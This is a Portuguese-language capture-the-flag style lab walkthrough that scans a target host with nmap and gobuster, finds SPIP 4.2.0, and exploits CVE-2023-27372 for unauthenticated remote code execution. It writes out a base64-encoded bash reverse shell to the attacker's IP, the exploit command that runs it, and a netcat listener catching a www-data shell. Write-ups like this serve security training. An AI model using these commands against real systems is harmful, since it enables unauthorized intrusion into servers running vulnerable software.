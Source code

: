Definindo variáveis úteis e testando conectividade:

```bash
ALVO="10.201.94.86"; LOCAL="10.201.88.218"

ping -c 3 $ALVO | grep -o "ttl=[0-9]*"
# ttl=64 (host up)
```

**Port scan completo** (todos os ports com detecção de serviços):

```bash
nmap -sC -sV -p- -T4 --min-rate=9326 -vv $ALVO
```

**Achados principais:**

* **22/tcp** → OpenSSH 8.2p1 (Ubuntu)
* **80/tcp** → Apache 2.4.41 (Ubuntu) – título: *Publisher's Pulse: SPIP Insights & Tips*

Bruteforce de caminhos no HTTP:

```bash
gobuster dir -w /usr/share/wordlists/dirbuster/directory-list-2.3-small.txt -u http://$ALVO
# /images  (301)
# /spip    (301)
```

A pasta **/spip** revela o CMS e (via fonte/HTML) a **versão do SPIP: 4.2.0**.

---

## 💥 Exploração Web – SPIP 4.2.0 (CVE-2023-27372)

O *searchsploit* aponta PoC verificado:

```bash
searchsploit SPIP 4.2.0
searchsploit -m 51536   # Copia para /root/51536.py
ls -lh /root/51536.py
```

Essa exploração dá **RCE sem autenticação**. Para facilitar uma reverse shell, geramos um payload em base64:

```bash
echo -n "bash -i >& /dev/tcp/$LOCAL/1234 0>&1" | base64 -w0
# YmFz...MQ==
```

**Exploit:**

```bash
python3 51536.py -u http://$ALVO/spip -c "echo YmFz...MQ== | base64 -d | bash"
```

**Listener:**

```bash
nc -lvnp 1234
# Connection received ...
# www-data@41c976e507f8:/home/think/spip/spip$
```
